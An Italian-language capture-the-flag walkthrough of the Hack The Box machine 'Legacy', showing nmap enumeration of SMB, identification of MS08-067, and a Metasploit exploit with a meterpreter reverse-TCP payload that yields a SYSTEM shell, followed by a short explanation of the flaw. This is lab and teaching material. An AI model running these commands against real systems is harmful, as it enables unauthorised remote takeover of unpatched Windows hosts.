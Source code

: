 ```yaml
---
title: "Legacy Walkthrough"
description: "Legacy è una macchina abbastanza semplice di livello easy che dimostra i potenziali rischi per la sicurezza del protocollo SMB su Windows. È sufficiente un unico exploit disponibile pubblicamente per ottenere accesso come amministratore."
author: dua2z3rr
date: 2025-08-12 1:00:00
categories: [Walkthrough]
tags: ["Area di Interesse: Protocols", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Security Tools", "Area di Interesse: Enterprise Network", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Remote Code Execution"]
image: /assets/img/legacy/legacy-resized.png"
---
```



## Enumerazione Esterna

### Nmap

Cominciamo con nmap.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.4 -vv -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-12 18:47 CEST
Initiating Ping Scan at 18:47
Scanning 10.10.10.4 [4 ports]
Completed Ping Scan at 18:47, 0.43s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:47
Completed Parallel DNS resolution of 1 host. at 18:47, 0.32s elapsed
Initiating SYN Stealth Scan at 18:47
Scanning 10.10.10.4 [65535 ports]
Discovered open port 135/tcp on 10.10.10.4
Discovered open port 445/tcp on 10.10.10.4
Discovered open port 139/tcp on 10.10.10.4
<SNIP>
```

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.4 -sC -sV -vv -p 135,139,445
<SNIP>
PORT    STATE SERVICE      REASON          VERSION
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 17574/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 42555/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2025-08-17T21:46:38+03:00
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6d:54 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00:50:56:94:6d:54:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
```

### Ricerca Vulnerabilità

Cerchiamo una vinerabilità per Windows XP (Windows 2000 LAN Manager) riguardante SMB.
Possiamo utilizzare la vulnerabilità **CVE-2008-4250** (anche chiamata **MS08-067**).

![Desktop View](/assets/img/legacy/legacy-vulnerabilità.png)

## Exploit

### MetaSploit

Utilizziamo msfconsole per l'exploit.

```shell
─[dua2z3rr@parrot]─[~]
└──╼ $msfconsole
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.4.71-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1669 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> search CVE-2008-4250

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption

<SNIP>

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

<SNIP>

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.230.43.82     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set RHOST 10.10.10.4
RHOST => 10.10.10.4
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set LHOST tun0
LHOST => 10.10.14.4
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> exploit
[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.4:1038) at 2025-08-12 19:21:20 +0200

(Meterpreter 1)(C:\windows) > getuid
Server username: NT AUTHORITY\SYSTEM
```

Prendiamo le flag e terminiamo la box.

> Le user directory si trovano nella cartella **C:\Documents and Settings** essendo Windows XP
{: .prompt-tip }

## Spiegazione Vulnerabilità

### MS08-067

MS08-067 è una vulnerabilità Buffer Overflow di Microsoft Servser Service. La Vulnerabilità consiste nell'inviare un pacchetto TCP attentamente craftato per permettere remote code execution sulla macchina nemica.

> Non sai cosa sono i Buffer Overflow? Leggi questo mio post per capirne di più! <https://dua2z3rr.github.io/posts/Buffer-Overflow/>
{: .prompt-info }

Molti malware sono stati creati tramite questa vulnerabilità. Un esempio è **Conficker worm**, che infettò milioni di computer in tutto il mondo. 
Attraverso questa vulnerabilità gli attacanti hanno accesso a dati sensibili oltre alla possibilità di installare ulteriore malware sulla macchina.
Gli OS vulnerabili sono: Microsoft Windows 2000, Windows XP, Windows Server 2003, Windows Vista, and Windows Server 2008.
